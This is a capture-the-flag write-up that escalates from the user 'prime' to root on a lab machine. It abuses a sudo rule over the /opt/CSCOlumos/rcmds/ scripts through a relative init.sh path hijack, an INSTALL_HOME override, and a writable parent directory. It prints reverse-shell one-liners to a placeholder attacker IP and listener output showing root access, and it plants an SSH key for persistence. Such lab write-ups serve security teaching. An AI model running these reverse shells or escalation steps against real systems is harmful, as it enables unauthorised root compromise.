

# Prime Time (root)
<p align="center">
    
</p>

The shell we got from exploiting the ActiveMQ service only gives us a *pseudo-shell* (which is a bit annoying to use), so we start by adding our ssh public-key to `/home/activemq/.ssh/authorized_keys` so that we can ssh into the machine.

As the user `prime` we have some sudo-rights which we are going to exploit to root the machine.
```
[prime@ip-10-128-2-125 ~]$ sudo -l
Matching Defaults entries for prime on ip-10-128-2-125:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User prime may run the following commands on ip-10-128-2-125:
    (ALL) SETENV: NOPASSWD: /opt/CSCOlumos/rcmds/
```

We are allowed to set environment variables and run scripts located in `/opt/CSCOlumos/rcmds/`. Inside this directory there are 88 (!) scripts which we can run.
```
[prime@ip-10-128-2-125 ~]$ ls /opt/CSCOlumos/rcmds/ -l | wc -l
88
```

With this many scripts to analyze for vulnerabilities the easiest method is probably to look at the smaller ones. There are multiple scripts which can be abused to escalate our privileges to root, using the same method(s). I ended up using the `hmadmin.sh` script to solve the challenge.
```
[prime@ip-10-128-2-125 rcmds]$ cat hmadmin.sh
#!/bin/bash
. init.sh

$INSTALL_HOME/bin/hmadmin.sh
```

It first executes `init.sh`, which is a script doing a lot of stuff (e.g. set the `$INSTALL_HOME` environment variable to `/opt/CSCOlumos`), but most importantly, its path is not absolute. This means that we can be in any directory executing `/opt/CSCOlumos/rcmds/hmadmin.sh`, and the it will search for `init.sh` in our current working directory. Because we can execute `/opt/CSCOlumos/rcmds/hmadmin.sh` as root, and that script executes `init.sh` in our CWD (in this case /dev/shm), we can create an `init.sh` which gives us a reverse shell.
```bash
[prime@ip-10-128-2-125 shm]$ pwd
/dev/shm
[prime@ip-10-128-2-125 shm]$ ls
init.sh
[prime@ip-10-128-2-125 shm]$ cat init.sh
#!/bin/bash

/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"
```

Running the command `sudo /opt/CSCOlumos/rcmds/hmadmin.sh` and listening on port 9001 with `nc -lnvp 9001` then gives us shell as root!
```
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [<attacker_ip>] from (UNKNOWN) [10.128.2.125] 34292
sh-4.2# id
id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2# cat /root/root.txt
cat /root/root.txt
EPT{5b2f8f8681b6621b519ef09adf371174}
```


**Note:** During the ctf my exploit looked a little different. I made my own `init.sh` which basically was empty, created my own `bin/hmadmin.sh` in CWD which executed the reverse shell, and set the `INSTALL_HOME` environment variable to CWD to execute my own `bin/hmadmin.sh` file. This lead to the *real* `hmadmin.sh` to search for and execute my `bin/hmadmin.sh`
```
[prime@ip-10-128-2-125 shm]$ pwd
/dev/shm
[prime@ip-10-128-2-125 shm]$ ls
bin  init.sh
[prime@ip-10-128-2-125 shm]$ ls bin
hmadmin.sh
[prime@ip-10-128-2-125 shm]$ cat init.sh
#!/bin/bash

echo "Executed"
[prime@ip-10-128-2-125 shm]$ cat bin/hmadmin.sh
#!/bin/bash

/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"
```

Running the command `sudo INSTALL_HOME=/dev/shm /opt/CSCOlumos/rcmds/hmadmin.sh` gives a reverse shell as root, similar to the other technique.

## Bonus: Prime Time (root)
In addition to the `path hijack` vulnerability to escalate privileges to root, there is an `insecure file permission` vulnerability as well that can be exploited!

As a reminder, we can run scripts located in `/opt/CSCOlumos/rcmds/` as root.
<p align="center">
    
</p>

Whoops...
```
[prime@ip-10-128-3-174 CSCOlumos]$ pwd
/opt/CSCOlumos
[prime@ip-10-128-3-174 CSCOlumos]$ ls -al
total 172
drwxrwxr-x. 60 prime root     4096 Nov  5 06:15 .
drwxr-xr-x.  4 root  root       39 Oct 15 03:42 ..
```

Apparently, we just own the directory `/opt/CSCOlumos/` as the user `prime`, so we can create a new `rcmds` directory with any scripts we want inside, and run them as root...
```
[prime@ip-10-128-3-174 CSCOlumos]$ pwd
/opt/CSCOlumos
[prime@ip-10-128-3-174 CSCOlumos]$ ls rcmds/
shell.sh
[prime@ip-10-128-3-174 CSCOlumos]$ cat rcmds/shell.sh
#!/bin/bash

/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"
```

Running this script gives us a root shell once again.
```
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [<attacker_ip>] from (UNKNOWN) [10.128.3.174] 52254
sh-4.2# id
id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```
